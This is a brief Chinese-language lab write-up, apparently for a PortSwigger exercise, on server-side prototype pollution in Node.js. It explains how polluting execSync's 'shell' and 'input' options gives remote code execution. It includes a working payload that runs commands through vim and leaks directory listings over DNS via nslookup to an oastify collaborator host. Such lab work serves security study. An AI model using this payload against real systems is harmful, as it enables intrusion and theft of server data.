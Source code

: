 ### 💥 背景：`execSync()` 如何导致远程代码执行（RCE）

Node.js 的 `child_process.execSync(command, options)` 是一个**同步执行 shell 命令**的接口，可以指定：

- `command`：要执行的命令字符串。
- `options.input`：会被写入 stdin，传给 shell 解释执行。
- `options.shell`：指定使用哪个 shell（默认是系统 shell，比如 `/bin/sh`）。

如果开发者使用 `execSync()`，但没有显式指定 `input` 或 `shell`，而你又能通过**原型污染**修改这两个字段，就可以控制输入内容和执行环境，从而劫持命令执行流程，实现 RCE。

```
"shell":"vim",

 "input":":! <command>\n"  //:!是让vim解析命令，\n模拟换行 执行
```

![image-20250725215947142](portswigger.assets/image-20250725215947142.png)

先找到污染源![image-20250725221526605](portswigger.assets/image-20250725221526605.png)

先看目录有什么

"__proto__":{
"shell":"vim",
"input":":! nslookup $(ls /home/carlos).9iscq6vjwe035cm019uopb9d64cy0poe.oastify.com\n"}

![image-20250725223433979](portswigger.assets/image-20250725223433979.png)

再cat打开![image-20250725223559853](portswigger.assets/image-20250725223559853.png)

